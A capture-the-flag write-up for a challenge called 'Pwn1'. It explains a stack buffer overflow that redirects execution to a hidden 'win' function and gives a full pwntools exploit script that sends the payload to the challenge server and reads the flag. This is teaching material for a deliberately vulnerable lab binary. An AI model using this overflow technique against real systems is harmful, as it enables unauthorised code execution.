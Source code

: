 # Pwn1
We have been provided with a connection to a server. First of all, our objective is to decompile the binary. Within the `main` function, the program accepts user input and then returns a fake flag.<br>
![preview](images/1.png)<br>

We can also observe that there is another function called <i>win</i> which returns shell. <br>
![preview](images/2.png)<br>
### Solution
The code takes 80 bytes of input from the user and attempts to fit it into a 64-byte character table. This leads to an overflow, which we can exploit to redirect the code execution to the `win` function. To achieve this, we simply need to provide a payload consisting of 72 bytes of padding followed by an 8-byte address corresponding to the `win` function. This will overwrite the instruction pointer and redirect the code execution.<br>
![preview](images/3.png)<br>
### Code
```
from pwn import *

host = 'challs.n00bzunit3d.xyz'
port = '35932'

context.binary = 'pwn1'

padding = 72*'a'
address = pack(0x40124a)
payload = padding.encode('utf-8') + address

conn = remote(host,port)

conn.sendline(payload + b'cat flag.txt')
print(conn.recv())
print(conn.recv())
print(conn.recv())
```
### Why does it happen?

By examining the disassembly of the `main` function, we can observe that it initially creates a 64-byte stack. Before returning, it frees up the stack using the leave instruction, which is a shorthand for the following:
```
mov rsp, rbp
pop rbp
```
![preview](images/4.png)<br>
When we provide 80 bytes of input to this 64-byte stack, it overflows and overwrites the addresses after $rbp of `main`. After the `leave` instruction, the address of the win function remains at the top of the stack. Now `ret` instruction will simply return to the address on the top of the stack.
